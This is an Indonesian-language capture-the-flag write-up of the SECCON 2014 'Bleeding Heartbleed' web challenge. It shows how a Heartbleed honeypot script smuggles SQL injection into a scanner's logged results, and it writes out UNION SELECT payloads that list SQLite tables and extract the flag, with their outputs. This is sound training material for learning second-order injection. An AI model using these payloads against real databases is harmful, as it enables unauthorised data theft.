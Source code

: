 ```yaml
---
id: 413
title: Bleeding “Heartbleed” Web 300 pts Seccon CTF
date: 2014-12-09T10:15:04+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=413
permalink: /2014/12/bleeding-heartbleed-test-web-300-pts-seccon-ctf/
categories: WebExploitation
tags: [SecconCTF]
---
```

> <http://bleeding.pwn.seccon.jp/>

website check heartbleed , yang datanya di simpan ke database coba kita scan

> 173.194.65.100:443
> 
>     Connecting...
>     Sending Client Hello...
>     Waiting for Server Hello...
>      ... received message: type = 22, ver = 0302, length = 61
>      ... received message: type = 22, ver = 0302, length = 3852
>      ... received message: type = 22, ver = 0302, length = 331
>      ... received message: type = 22, ver = 0302, length = 4
>     Sending heartbeat request...
>     
>     

<!--more-->

view-source

> <pre><span class="pl-c">&lt;!-- DEBUG: INSERT OK. TIME=1417889356 --&gt;
</span></pre>

INSERT OK berarti masuk ke database, sepertinya ini ada sql injection cara kita inject dengan membuat honeypot vulnerability Heartbleed

gunakan script <a href="packetstormsecurity.com/files/126068/hb_honeypot.pl.txt" target="_blank">packetstormsecurity.com/files/126068/hb_honeypot.pl.txt</a> untuk membuat server anda menjadi vuln heartpbleed ,untuk bisa mengirimkan pesan inject nya jalankan honeypot dan scan ip anda

&nbsp;

> ifconfig
> 
> 120.33.21.66
> 
> perl hb_honeypot.pl
> 
> Scan  120.33.21.66:443 < via website
> 
> <span style="text-decoration: underline;">DATABASE ERROR!!!</span> <tt>near ".": syntax error</tt>
> 
> select time from results where result=&#8217;Connecting&#8230; Sending Client Hello&#8230; Waiting for Server Hello&#8230; &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 24, ver = 0301, length = 249 &#8230; received message: type = 22, ver = 0301, length = 1 Sending heartbeat request&#8230; &#8230; received message: type = 24, ver = 0301, length = 249
> 
> Received heartbeat response: 09809\*)(\*)(76&^%&(*&^7657332
> 
> Hi there! Your scan has been logged! Have no fear, this is for research only &#8212; We&#8217;re never gonna give you up, never gonna let you down! WARNING: server returned more data than it should &#8211; server is vulnerable! &#8216;;

Kita coba lagi inject

> perl hb_honeypot.pl  &#8216; UNION SELECT 1337 WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
> <span class="pl-c"><!&#8211; DEBUG: INSERT OK. TIME=1337 &#8211;></span>

untuk mendapatkan list table

> perl hb\_honeypot.pl &#8216; UNION SELECT group\_concat(name) FROM sqlite_master WHERE type=&#8217;table&#8217;;&#8211;
> 
> <pre><span class="pl-c">view source
&lt;!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt --&gt;

</span></pre>

ambil kolom flag dari tabel results

> perl hb_honeypot.pl &#8216; UNION SELECT flag from ssFLGss WHERE 1=1 OR &#8216;1&#8217; LIKE &#8216;
> 
> view source
> 
>     <!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
>     
>     

Other Source :

https://github.com/ctfs/write-ups/tree/master/seccon-ctf-2014/bleeding-heartbleed-test-web

<http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>

<div class='et_post_video'>
</div>